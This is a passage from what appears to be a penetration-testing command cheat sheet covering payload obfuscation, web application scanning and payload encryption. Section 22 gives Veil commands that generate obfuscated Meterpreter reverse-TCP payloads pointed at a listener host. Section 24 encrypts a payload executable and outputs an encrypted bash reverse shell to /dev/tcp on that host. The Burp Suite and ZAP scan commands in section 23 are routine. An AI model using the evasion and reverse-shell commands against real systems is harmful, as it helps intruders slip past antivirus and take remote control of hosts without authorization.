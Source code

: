 
## 22. Obfuscation - Veil Framework

```bash
# Start Veil
./Veil.py

# Generate obfuscated payload
use evasion/python/meterpreter/rev_tcp
set LHOST 192.168.1.100
set LPORT 4444
generate

# Use specific encoder
use evasion/cs/meterpreter/rev_tcp
set USE_ARYA Y
generate
```

---

## 23. Application Layer Attack - Burp Suite (Command Line)

```bash
# Burp Suite Professional command line
java -jar burpsuite_pro.jar --config-file=config.json

# Headless scanning
java -jar burpsuite_pro.jar --project-file=test.burp --headless

# Command line with extensions
java -jar burpsuite_pro.jar --load-extension=extension.jar
```

### Alternative - OWASP ZAP

```bash
# ZAP baseline scan
zap-baseline.py -t http://target.com

# Full scan
zap-full-scan.py -t http://target.com

# API scan
zap-api-scan.py -t http://target.com/api/openapi.json
```

---

## 24. Encryption - OpenSSL

```bash
# Encrypt payload
openssl enc -aes-256-cbc -in payload.exe -out payload.enc -k password

# Decrypt payload
openssl enc -d -aes-256-cbc -in payload.enc -out payload.exe -k password

# Base64 encoding
openssl base64 -in file.bin -out file.b64

# Generate encrypted reverse shell
echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" | openssl enc -aes-256-cbc -a -salt -k password
```

---